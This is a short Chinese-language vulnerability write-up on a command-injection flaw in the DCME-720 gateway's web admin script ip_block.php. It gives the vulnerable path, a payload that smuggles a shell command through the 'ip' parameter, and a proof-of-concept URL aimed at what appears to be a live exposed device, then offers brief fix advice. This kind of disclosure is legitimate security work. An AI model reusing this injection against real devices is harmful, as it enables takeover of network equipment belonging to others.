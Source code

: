 ```yaml
---
title: DCME-720
tags: 二进制
categories: 物联网
toc_number: true
date: 2025/8/4 11:20:53 
---
```




# 漏洞概述

DCME-720多核出口网关采用多核高性能处理器，结合专用ASIC交换芯片，针对大容量用户数、多流量、多业务种类的业务需求而推出的新一代高性能互联网出口网关。

 其web管理后台存在命令执行漏洞，攻击者可以利用该系列漏洞在设备上执行任意代码以及控制设备。

固件下载地址：https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-720

 

 

# 代码审计

代码位置在设备系统中/usr/local/www/function/audit/newstatistics/ip_block.php

![](img/1.png)

/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;[拼接命令];

# 验证

登录web管理后台，访问漏洞所在url：

http://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php

![](img/2.png)

构造payload：

?action=save&switch=1&ip=;echo 123 > 1.txt;

创建txt文件并写入数字

 poc如下：
 https://8363-218-19-14-194.ngrok-free.app/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo%20123%20%3E%201.txt;

执行(显示修改失败但已命令执行成功)

![](img/3.png)

访问1.txt文件，发现创建并且写入成功

![](img/4.png)

# 修复建议

修改web后端php代码，对相关参数进行控制或过滤

 